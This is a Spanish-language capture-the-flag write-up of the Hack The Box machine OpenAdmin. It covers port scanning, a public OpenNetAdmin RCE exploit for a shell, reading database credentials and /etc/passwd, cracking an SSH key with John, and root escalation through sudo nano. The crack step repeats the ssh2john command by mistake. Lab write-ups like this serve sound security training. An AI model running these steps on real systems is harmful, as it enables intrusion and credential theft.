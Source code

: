 # HTB - OpenAdmin
Este es mi primer writeup asi como OpenAdmin(10.10.10.171) fue una de las primeras maquinas que resolvi. Espero que sea de ayuda al lector y H4ppy H4ck1ng!
## Escaneando puertos
Utilizando el comando:
```markdown
nmap -sS --open -p- -sV -T 4 10.10.10.171 
```
![imagen](https://user-images.githubusercontent.com/84255799/119300072-c16ead80-bc25-11eb-9a3c-61bf6bc1ea3f.png)

Del escaneo, se puede observar que la maquina tiene 2 puertos abiertos, se requieren usuarios para el login de SSh por lo que se procede a enumerar el puerto 80.

## Enumeración de directorios
Para este paso hice uso de DirBuster, ingrese los datos: URL: http://10.10.10.171:80/ y Wordlist: directory-list-lowercase-2.3-medium.txt.
La herramiento encontro los siguientes directorios:
![imagen](https://user-images.githubusercontent.com/84255799/119300552-8f118000-bc26-11eb-88c8-6c30854b43aa.png)

Probando esos directorios, encontre que el directorio /music tiene un boton de login que me redirecciona a OpenNetAdmin ver 18.1.1. Buscando en google, encontre que esa versión posee RCE(Remote Code Execution).

##Buscando acceso

Procedo a buscar exploits con el siguiente comando:
```markdown
searchsploit opennetadmin
```
![imagen](https://user-images.githubusercontent.com/84255799/119301075-81a8c580-bc27-11eb-8e87-5796ec89ace9.png)

Una vez copiado el exploit en nuestra carpeta de trabajo, debemos darle permisos para ejecución.
![imagen](https://user-images.githubusercontent.com/84255799/119301145-a2711b00-bc27-11eb-9887-94d2063c84bd.png)

Ejecutandolo con:
```markdown
./ona.sh http://10.10.10.171/ona/
```
Me da una shell:
![imagen](https://user-images.githubusercontent.com/84255799/119301280-d0565f80-bc27-11eb-9d99-24f7c772941f.png)

##Buscando credenciales

Procedo a buscar archivos que puedan darme pistas de cómo obtener acceso a un user.
![imagen](https://user-images.githubusercontent.com/84255799/119301374-fe3ba400-bc27-11eb-9979-f1e5ee69c922.png)

Leyendo ese archivo con:
```markdown
cat var/www/ona/local/config/database_settings.inc.php
```
Encontramos lo siguiente
![imagen](https://user-images.githubusercontent.com/84255799/119301592-570b3c80-bc28-11eb-8d91-890f011f8fd4.png)

Por lo que intento probar esa contraseña en los usuarios de la maquina
```markdown
$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
jimmy:x:1000:1000:jimmy:/home/jimmy:/bin/bash
joanna:x:1001:1001:,,,:/home/joanna:/bin/bash
```
La contraseña funcionó para Jimmy!
![imagen](https://user-images.githubusercontent.com/84255799/119301787-a2bde600-bc28-11eb-990f-b50693b4f08f.png)

##Escalando privilegios 

Buscando en los directorios de la maquina, encontre uno interesante
```markdown
cat /var/www/internal/main.php
```
![imagen](https://user-images.githubusercontent.com/84255799/119301945-e57fbe00-bc28-11eb-81fa-77a393343e78.png)

Esto me motiva a verificar si se esta utilizando algun otro puerto de forma interna en la maquina
```markdown
ss -ltu
```
![imagen](https://user-images.githubusercontent.com/84255799/119302096-2f68a400-bc29-11eb-96c8-bff28733c843.png)

Por lo que si realizamos Curl a la pagina en ese puerto
```markdown
curl localhost:52846/main.php
```
Encontramos una llave privada
![imagen](https://user-images.githubusercontent.com/84255799/119302205-5a52f800-bc29-11eb-9014-2adb7003b667.png)

###Crackeando password 

Para crackear una pass, mi primera opción es JohnTheRipper, pero antes procedo a ponerla en un formato que el John pueda aceptar
```markdown
sudo python /usr/share/john/ssh2john.py id_rsa > joanna_id_rsa.hash
```

Una vez hecho esto, procedo a crackearla
```markdown
sudo python /usr/share/john/ssh2john.py id_rsa > joanna_id_rsa.hash
```
![imagen](https://user-images.githubusercontent.com/84255799/119302468-c6356080-bc29-11eb-89a7-fcea46d065d1.png)

Cuando probamos esa clave, tenemos el acceso
```markdown
ssh -i id_rsa joanna@10.10.10.171
```
![imagen](https://user-images.githubusercontent.com/84255799/119302614-03015780-bc2a-11eb-8a1e-9ca4c21293e3.png)

Si leemos el user.txt tendremos la flag del user.
![imagen](https://user-images.githubusercontent.com/84255799/119302679-1d3b3580-bc2a-11eb-9364-46da0f308771.png)

###Ultimo paso

Comprobamos que permiso tiene Joanna
```markdown
sudo -l
```
![imagen](https://user-images.githubusercontent.com/84255799/119302790-507dc480-bc2a-11eb-9d61-d31a142d7866.png)

Joanna tiene permiso de ejecutar nano como root.

Por lo tanto,
```markdown
sudo /bin/nano /opt/priv
```
![imagen](https://user-images.githubusercontent.com/84255799/119302929-828f2680-bc2a-11eb-87ce-ae52b53a6321.png)

Para ir directamente a root.txt, busque el archivo y luego procedi a leerlo.
![imagen](https://user-images.githubusercontent.com/84255799/119302975-9aff4100-bc2a-11eb-8614-35dcc25a287d.png)

##Gracias por leer!

Espero te haya servido, proximamente publicaré más writeups.
